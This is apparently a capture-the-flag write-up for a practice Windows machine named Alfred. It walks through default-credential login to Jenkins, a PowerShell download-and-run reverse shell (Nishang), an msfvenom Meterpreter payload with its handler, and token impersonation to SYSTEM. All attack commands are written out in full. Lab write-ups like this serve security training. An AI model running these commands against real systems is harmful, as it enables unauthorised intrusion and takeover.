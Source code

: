 # Alfred

##### Written: 26/09/2021

##### IP Address: 10.10.113.167

---

Let's start off with a basic **nmap** scan on the target machine. The room states that the machine does not respond to ping (ICMP). Hence, we have to specify the **-Pn** tag in our nmap command. This will disable host discovery, basically skipping the process of pinging the target machine to see if it is alive.

```
sudo nmap -sC -sV -Pn -vv 10.10.113.167
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that there are **3** ports currently open on our target machine:

* Port **80**: HTTP
* Port **3389**
* Port **8080**: HTTP

<br>

Let's first visit the web server on port 80. Navigating to the address, we are brought to the following page:

<img style="float: left;" src="screenshots/screenshot2.png">

After looking through the website and running a **Gobuster** scan, I was unable to find anything of interest. Let's move on to the web server on port 8080.

<img style="float: left;" src="screenshots/screenshot3.png">

Nice! We found a login page to a **Jenkins server**. 

*Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery (from Wikipedia).*

<br>

Let's go ahead and try using a common default username and password, **admin:admin**.

<img style="float: left;" src="screenshots/screenshot4.png">

Luckily for us, those credentials actually worked. We are able to log into the Jenkins dashboard.

The room then asks us to find a feature of the Jenkins tool that allows us to execute commands on the underlying system. After digging around, I managed to find a configuration page which allows us to input commands that will be executed server-side. To access this page, we click on the current project named **'project'**, then **'Configure'** on the left-hand side, then move down to the **'Build'** section.

<img style="float: left;" src="screenshots/screenshot5.png">

In this field, we are able to input shell commands which will be executed once the project is built. Let's test this out so that we can  better understand how it works. We'll leave the command to be ```whoami```.

<img style="float: left;" src="screenshots/screenshot6.png">

Now, we simply click on **'Build Now'** on the project page, then click on the corresponding build in the **'Build History'** section, then click on the **'Console Output'** to see the results of our command.

<img style="float: left;" src="screenshots/screenshot7.png">

It works! This proves that we can run arbitrary commands on the server. Thus, we can use this to upload a reverse shell script that will grant us initial access into our target machine. Since this is a **Windows** machine, we will be using a Powershell reverse shell script that is part of the **Nishang** framework (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

<br>

After downloading the reverse shell script onto our local machine, we then run a Python HTTP server so that we can download the script onto our target.

Next, we input the following command into the **'Build'** section of the project:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

The first part of this command will download the reverse shell script onto the target machine. It will then run the script using ```Invoke-PowerShellTcp```.

<img style="float: left;" src="screenshots/screenshot8.png">

Finally, we make sure to have a **netcat** listener up and ready to catch the connection.

<br>

With everything set up, let's go ahead and build the project!

<img style="float: left;" src="screenshots/screenshot9.png">

And we're in :smile:

<img style="float: left;" src="screenshots/screenshot10.png">

**We can find the user flag from user.txt located in the Desktop of the user Bruce.**

---

To make the privilege escalation process easier, let's switch to a **Meterpreter shell** using **Metasploit**.

Firstly, we need to create a Windows-based reverse shell executable which can connect back to our Meterpreter listener. This can be done using **Msfvenom**.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o shell.exe
```

<img style="float: left;" src="screenshots/screenshot11.png">

<br>

With our payload created, we can upload it onto the target machine using the same command method as before.

``` 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell.exe','shell.exe')"
```

<img style="float: left;" src="screenshots/screenshot12.png">

For good measure, I'll also add in a ```dir``` command to list out the contents of the server directory. This is to confirm that our payload has been successfully uploaded onto the target machine.

<br> 

<img style="float: left;" src="screenshots/screenshot13.png">

After building the project, we can see from the console output that our malicious payload (shell.exe) has been successfully uploaded on the target machine.

Now, we just have to execute it using:

```
.\shell.exe
```

<img style="float: left;" src="screenshots/screenshot14.png">

<br>

Before building, we need to have the appropriate handler up and running in Metasploit. We will be using the **/multi/handler** module.

```
use /multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST x.x.x.x 
set LPORT 4444
run -j
```

With the TCP listener up and running in Metasploit, we can go ahead and build the project.

<img style="float: left;" src="screenshots/screenshot15.png">

We have successfully spawned a Meterpreter shell!

---

Now that we have initial access via a Meterpreter shell, we can use **token impersonation** to gain system access.

*More information about Tokens can be found in the room description.*

<br>

Let's first spawn a shell that we can use. This can be done using the ```shell``` command in Meterpreter.

Next, we use the ```whoami /priv``` command to view all privileges on this account. The results are as follows:

<img style="float: left;" src="screenshots/screenshot16.png">

As we can see, the **SeDebugPrivilege** and **SeImpersonatePrivilege** privileges have been enabled. We can exploit this vulnerability by using the **incognito** module in Metasploit. To load this, we first exit out of the shell. Then we use the command ```load incognito```. 

<img style="float: left;" src="screenshots/screenshot17.png">

<img style="float: left;" src="screenshots/screenshot18.png">

Loading this module gives us more commands that we can run on our target machine. We will be using the ```list_tokens``` command.

```
list_tokens -g
```

*The -g tag lists tokens by unique groupname*

**Results:**

<img style="float: left;" src="screenshots/screenshot19.png">

From the results, we can see that the **BUILTIN\Administrators** delegation token is available. We can then use the ```impersonate_token``` command to impersonate the root user.

```
impersonate_token "BUILTIN\Administrators"
```

**Results:**

<img style="float: left;" src="screenshots/screenshot20.png">

With that, we have successfully impersonated the **root user (NT AUTHORITY\SYSTEM)**.

<br>

However, even though we have a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 

Hence, we need to make sure that we migrate to a process with the correct **NT AUTHORITY\SYSTEM** permissions. 

According to the room, the safest process to migrate to is the **services.exe** process. Let's migrate to that process now.

Before doing so, we need to find the **PID** of the process. We can use the ```ps``` command.

<img style="float: left;" src="screenshots/screenshot21.png">

The PID of services.exe is **668**. 

<br>

Now we can migrate to the process using the following command:

```
migrate 668
```

<img style="float: left;" src="screenshots/screenshot22.png">

After the migration is complete, we can spawn a higher-privileged shell using the ```shell``` command again. We can then read the **root.txt** file located in **C:\Windows\System32\config** using the ```TYPE``` command.

<img style="float: left;" src="screenshots/screenshot23.png">

**With that, we can obtain the root flag and complete the room.**


